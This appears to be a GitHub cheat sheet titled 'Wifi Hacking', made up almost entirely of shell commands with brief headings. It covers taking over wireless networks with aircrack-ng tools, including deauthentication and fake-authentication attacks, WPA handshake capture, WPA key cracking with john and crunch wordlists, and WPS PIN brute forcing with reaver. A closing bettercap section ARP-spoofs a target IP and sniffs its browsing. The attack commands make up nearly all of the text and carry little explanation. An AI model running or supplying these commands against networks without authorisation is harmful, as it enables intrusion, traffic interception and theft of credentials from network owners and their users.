 # Wifi Hacking

|Commands|
|--------------|
|[Network Manager Commands](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#network-manager-commands)|
|[Network Adapter Testing Commands](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#network-adapter-testing-commands)|
|[Changing MAC Address](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#changing-mac-address)|
|[Sniff Network](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#sniff-network)|
|[Capture Data](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#capture-data)|
|[Analyse Data](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#analyse-data)|
|[Associate with Router](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#associate-with-router)|
|[DE-Authentication Attack](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#de-authentication-attack)|
|[Fake-Authentication Attack](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#fake-authentication-attack)|
|[WPA Handshake Capture](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#wpa-handshake-capture)|
|[Password Cracking Using `John`](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#password-cracking-using-john)|
|[Password Cracking using `wordlist`](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#password-cracking-using-wordlist)|
|[Create word list](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#create-word-list)|
|[Password Cracking Without `Word list`](https://github.com/ohm-vishwa/Ethical-Hacking-Cheat-Sheet?tab=readme-ov-file#password-cracking-without-word-list)|
---

# Network Manager commands

> ### Kill Network Manager
```bash
airmon-ng check kill
```

> ### Enable Network Manager

```bash
service NetworkManager start
```

> ### Restart Network Manager
```bash
systemctl restart NetworkManager
```

> ### Check Status of Network Manager
```bash
systemctl status NetworkManager
```
---

# Network Adapter Testing Commands

> ### Enable Monitor Mode
```bash
airmon-ng start wlan0
```

> ### Disable Monitor Mode
```bash
airmon-ng stop wlan0
```

> ### Packet Injection test
```bash
aireplay-ng --test wlan0
```

> ### Access Point Creation test

you can put any fake MAC Address like this `00:01:02:03:04:05`
```bash
airbase-ng -a 00:01:02:03:04:05 --essid "<AP_name>" -c {channel_no.} wlan0
```

---

# Changing MAC Address
```bash
ifconfig wlan0 down
ifconfig wlan0 hw ether 00:11:22:33:44:55
ifconfig wlan0 up
```
# Sniff Network 

> ### Sniff Network around `2.4 GHz`
```bash
airodump-ng wlan0
```

> ### Sniff Network Both `2.4 GHz and 5 GHz`
```bash
airodump-ng --band a wlan0
```

> ### Capture data both `2.4 GHz and 5 GHz`
```bash
airodump-ng --band abg wlan0
```
---
# Capture Data
```bash
airodump-ng --bssid {router_MAC_add} --channel {channel_no.} --write (file_name_without_extension) wlan0
```
# Analyse Data
```bash
wireshark
```
---

# Associate with router
```bash
aireplay-ng --fakeauth 0 -a {router_MAC_add} -h {Your_NIC_MAC_add} waln1
```

# DE-Authentication Attack
```bash
aireplay-ng --deauth {no_of_deauth_packets} -a {router_MAC_add} -c {target_MAC_add} wlan0
```
if it`s fails then, target router on specfic channel

```bash
airodump-ng --bssid {router_MAC_add} --channel {channel_no.} wlan0
```

# Fake-Authentication Attack
```bash
aireplay-ng --fakeauth {delay} -a {router_MAC_add} -h {your_NIC_MAC} wlan0
```

# WPA Handshake Capture
```bash
airodump-ng --bssid {router_MAc_add} --channel {channel_no.} --write {file_name_without_extn} wlan0
```

# Password Cracking Using `John`

> ### `.cap` to `.hccap`
```bash
aircrack-ng {.cap} -J {extension_name_not_required}
```
> ### `.hccap` to `.txt`
```bash
hccap2john {.hccap} > {.txt}
```
> ### Crack Password
```bash
john {.txt}
```

---

# Password Cracking using `wordlist`
```bash
aircrack-ng {.cap} -w {Wordlist.txt}
```
---
# create word list
```sh
man crunch
crunch 6 8 {key length} abc12 {char used} -o test.txt
```
> ## Create word list using pattern
```sh
crunch {key_length Ex: 6 8} {char_used Ex: abc12} -o {.txt} -t {patter Ex: a@@@@b}
```

---
# Password Cracking `Without Word list`

> ## Scan WPS Enable Network Around us

```sh
wash --interface wlan0
```

>[!WARNING]
>Current version of reaver have some bugs, you can use old version

> ## Brute force the pin attack
```sh
reaver --bssid {router_MAC_add} --channel {channel_no.} --interface wlan0 -vvv --no-associate 
```
---
---
---
# Bettercap
```sh
sudo bettercap -iface wlx242fd0da04dc
```
```sh
set arp.spoof.fullduplex true
```
```sh
net.show
```
```sh
set arp.spoof.targets <target_ip>
```
```sh
arp.spoof on
```
for scan target browsed
```sh
net.sniff on 
```

<!-- # =}> [Keep Supporting me on YouTube](https://www.youtube.com/@ohm_vishwa) -->

